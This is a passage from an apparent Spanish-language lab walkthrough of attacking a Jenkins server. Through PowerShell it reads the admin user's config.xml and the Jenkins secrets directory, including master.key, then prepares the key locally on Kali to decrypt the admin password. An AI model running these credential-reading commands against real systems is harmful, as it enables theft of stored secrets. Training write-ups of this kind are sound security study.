 <figure><img src="../../../../../.gitbook/assets/3119_vmware_LC4OVt2yzO.png" alt=""><figcaption></figcaption></figure>

Al acceder al directorio `/users/admin_17207690984073220035` verificamos que vemos el archivo que necesitamos "config.xml".

```powershell
powershell -c "ls ../../users/admin_17207690984073220035"
```

<figure><img src="../../../../../.gitbook/assets/3120_vmware_zpFZ3qpCcf.png" alt=""><figcaption></figcaption></figure>

Procederemos a verificar el contenido del archivo "config.xml" a través del siguiente comando.

```powershell
powershell -c "cat ../../users/admin_17207690984073220035/config.xml"
```

<figure><img src="../../../../../.gitbook/assets/3121_vmware_Ep2rF13jhC.png" alt="" width="516"><figcaption></figcaption></figure>

Guardaremos el contenido del archivo de manera local en nuestra Kali.

<figure><img src="../../../../../.gitbook/assets/3122_vmware_vxdc3UidG2.png" alt=""><figcaption></figcaption></figure>

A continuación, procederemos a listar el directorio `/secrets` y comprobamos que disponemos del archivo "hudson.util.Secret" y "master.key" necesarios para la desencriptación de la contraseña de Jenkins del usuario "admin".

```powershell
powershell -c "ls ../../secrets"
```

<figure><img src="../../../../../.gitbook/assets/3123_vmware_mn6F3oMxiD.png" alt=""><figcaption></figcaption></figure>

Listaremos el contenido del archivo "master.key" a través de la siguiente instrucción.

```powershell
powershell -c "cat ../../secrets/master.key"
```

<figure><img src="../../../../../.gitbook/assets/3124_vmware_V7FLXbKmJA.png" alt=""><figcaption></figcaption></figure>

Copiaremos el contenido para obtener el archivo de manera local en nuestra Kali, eliminaremos cualquier salto de línea innecesario y verificaremos que disponemos del contenido del archivo "master.key" de manera local.

```bash
wc -c master.key

cat master.key | tr -d '\n' | wc -c

cat master.key | tr -d '\n' | sponge master.key

wc -c master.key

catnp  master.key ; echo
```
